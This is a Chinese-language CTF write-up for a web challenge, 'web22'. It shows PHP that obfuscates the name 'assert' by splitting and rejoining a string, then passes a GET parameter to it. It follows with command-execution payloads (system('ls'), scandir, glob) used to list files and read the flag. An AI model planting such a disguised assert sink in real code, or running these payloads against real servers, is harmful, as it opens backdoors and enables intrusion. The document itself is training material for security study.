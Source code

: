 # web22

![image-20210118192123332](../../../image/image-20210118192123332.png)

题目描述:

![image-20210118192305288](../../../image/image-20210118192305288.png)

```php
$poc="a#s#s#e#r#t";
$poc_1=explode("#", $poc);
$poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5];
$poc_2($_GET['s']);
```

经过变量$poc_1的分割还有变量$poc_2的拼接之后变量$poc_2的值是assert

这个函数是检查一个[断言](https://www.php.net/manual/zh/regexp.reference.assertions.php)是否为False

然后接受一个参数为s的GET请求

这里就牵扯到assert这个参数的漏洞了

代码执行的漏洞

assert会在检查指定的值并在结果为FALSE时采取一些行动，如果这个值时字符串，就会被assert当作php代码执行

![image-20210118200007585](../../../image/image-20210118200007585.png)

![image-20210118202613175](../../../image/image-20210118202613175.png)

可以执行phpinfo()

本来phpinfo要执行完整的是phpinfo();

这里少了一个 **；**

assert判断是False

所以就直接执行了

之后就判断flag在某个文件里

所以可以去执行查看目录的php代码

```php
system('ls')
print_r(scandir('./'))
print_r(glob(*.*))
var_dump(scandir('./'))
print_r(glob(*.*))
```

![image-20210118203253714](C:/Users/Cite-Arkssac/AppData/Roaming/Typora/typora-user-images/image-20210118203253714.png)



![image-20210118203416888](../../../image/image-20210118203416888.png)

![image-20210118203431434](../../../image/image-20210118203431434.png)

这些都可以

得到flag的文件之后

因为是txt文件

所以可以直接查看

![image-20210118203540127](../../../image/image-20210118203540127.png)